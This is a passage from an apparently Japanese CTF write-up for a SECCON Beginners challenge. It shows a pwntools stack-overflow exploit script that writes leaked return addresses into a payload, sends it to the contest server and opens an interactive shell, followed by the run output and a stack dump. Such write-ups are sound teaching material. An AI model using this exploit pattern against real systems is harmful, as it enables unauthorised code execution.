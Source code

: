 ```python
    send_data+='\0'

# saved_vuln address
for i in reversed(range(0,len(saved_vuln),2)):
    if i==len(saved_vuln)-2:
        send_data+=chr(int(saved_vuln[i:i+2],16)-0)
    else:
        send_data+=chr(int(saved_vuln[i:i+2],16))

# ret_vuln address
for i in reversed(range(0,len(ret_vuln),2)):
    if i==len(ret_vuln)-2:
        send_data+=chr(int(ret_vuln[i:i+2],16)+18)
    else:
        send_data+=chr(int(ret_vuln[i:i+2],16))

"""
# saved_main address
for i in reversed(range(0,len(saved_main),2)):
    if i==len(saved_main)-2:
        send_data+=chr(int(saved_main[i:i+2],16)-0)
    else:
        send_data+=chr(int(saved_main[i:i+2],16))
"""

# change address
for i in reversed(range(0,len(terget_address),2)):
    send_data+=chr(int(terget_address[i:i+2],16))
for i in range(5):
    send_data+='\0'

# ret_main address
for i in reversed(range(2,len(ret_main),2)):
    send_data+=chr(int(ret_main[i:i+2],16))

conn.recvuntil("Input: ")
conn.send(send_data)
conn.interactive()
result=conn.recvall()
conn.close()
print(result.decode('utf-8'))
print(send_data)
```
あぁスッキリした。
この後はシェルに入れるので、
```
[+] Opening connection to bs.quals.beginners.seccon.jp on port 9001: Done
00007ffed9108c60
000000000040084e
0000000000400ad0
00007ff73a5d7b97
[*] Switching to interactive mode

   [ Address ]           [ Stack ]
                   +--------------------+
0x00007ffed9108c30 | 0x0000000000000000 | <-- buf
                   +--------------------+
0x00007ffed9108c38 | 0x0000000000000000 |
                   +--------------------+
0x00007ffed9108c40 | 0x0000000000000000 |
                   +--------------------+
0x00007ffed9108c48 | 0x0000000000000000 |
                   +--------------------+
```
